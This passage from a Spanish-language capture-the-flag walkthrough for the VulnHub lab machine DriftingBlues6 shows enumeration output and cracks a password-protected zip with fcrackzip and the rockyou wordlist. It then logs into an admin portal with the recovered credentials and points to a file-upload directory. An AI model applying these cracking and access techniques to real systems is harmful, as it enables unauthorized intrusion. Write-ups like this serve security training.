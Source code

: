 ```bash
http://10.11.12.36/robots               (Status: 200) [Size: 110]
http://10.11.12.36/robots.txt           (Status: 200) [Size: 110]
http://10.11.12.36/spammer              (Status: 200) [Size: 179]
http://10.11.12.36/spammer.zip          (Status: 200) [Size: 179]
```

Descargamos el recurso `spammer.zip` y tendremos que crackearlo porque está bajo contraseña, usamos `fcrackzip` y obtenemos las credenciales de acceso.

```bash
❯ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip

PASSWORD FOUND!!!!: pw == myspace4

❯ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password:
 extracting: creds.txt

❯ ls
 creds.txt   spammer.zip

❯ cat creds.txt
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: creds.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ mayer:lionheart
```

Ingresamos al portal de administración con las credenciales. 

Nos dirijimos a las preferencias del *admin* y notamos un directorio para subir archivos.

![admin-profile](/assets/img/commons/vulnhub/DriftingBlues6/admin-profile.png){: .normal }
